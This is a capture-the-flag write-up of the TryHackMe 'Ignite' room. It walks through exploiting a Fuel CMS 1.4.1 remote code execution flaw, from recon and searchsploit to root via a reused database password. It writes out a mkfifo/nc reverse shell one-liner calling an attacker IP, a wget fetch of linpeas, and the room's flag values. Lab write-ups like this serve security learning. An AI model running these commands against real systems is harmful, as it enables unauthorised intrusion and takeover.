

# Ignite

## Room Information

- **Difficulty:** Easy
- **Room URL:** [https://tryhackme.com/room/ignite](https://tryhackme.com/room/ignite)
- **Date Completed:** 2025-11-27

## Overview


## New Tools
### searchsploit
Searchsploit is a tool that allows you to search for exploits in the Exploit Database.

Path is the exploit allows you to attack the target with the vulnerability.

```shell
searchsploit fuel cms

---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                      |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                                          | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                                          | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                                                          | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                                                                         | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                                                                | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                                                                    | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)                                                                                                  | php/webapps/50884.txt
---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

You can download the exploit with the -m option.

```shell
searchsploit -m 50477

  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/tryhackme/04_ignite/50477.py
```

## New Services
### pentestmonkey
Pentestmonkey is a website that provides a variety of tools, cheat‑sheets (for SQL injection, reverse shells, etc.) for security testing.

[https://pentestmonkey.net/](https://pentestmonkey.net/)

## Reconnaissance
### nmap
```shell
nmap -sV -oN nmap.txt 10.49.143.242

Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### HTTP Access
The website is running with Fuel CMS 1.4.1.

you can login as admin/admin through http://10.49.143.242/fuel



### searchsploit

```shell
searchsploit fuel cms

---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                      |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                                          | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                                          | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                                                          | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                                                                         | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                                                                | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                                                                    | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)                                                                                                  | php/webapps/50884.txt
---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Download the exploit with the -m option.

```shell
searchsploit -m 50477
```

## Exploitation

### Execute 50477.py

```shell
python3 50477.py -u http://10.49.143.242

[+]Connecting...
Enter Command $whoami
systemwww-data
```

### Execute reverse shell

```shell
# attack machine
$ nc -lnvp 1234
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

# target machine
Enter Command $rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.147.55 1234 >/tmp/f
```

### Get user flag

```shell
$ cd /home/www-data
$ cat user.txt
6470e394cbf6dab6a91682cc8585059b
```

## Privilege Escalation
### Set linpeas to target machine
```
# attack machine
python3 -m http.server

# target machine
wget http://<attack_machine_ip>:8000/linpeas.sh
```

### Execute linpeas
```shell
sh ./linpeas.sh | tee linpeas.log

# try this password to escalate to root
╔══════════╣ Searching passwords in config PHP files
/var/www/html/fuel/application/config/database.php:	'password' => 'mememe',
```

### Escalate to root
We can't `su` command because reverse shell is not tty shell(not interactive).

```shell
$ su root
su: must be run from a terminal
```

Launch a tty shell.

```shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/home/www-data$
```

Login as root.

```shell
$ su root
Password: mememe
root@ubuntu:/home/www-data# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```


## Flags

- **User Flag:** /www-data
- **Root Flag:**

## Tools Used

- nmap
- gobuster
- searchsploit
- nc
- linpeas

## Completed


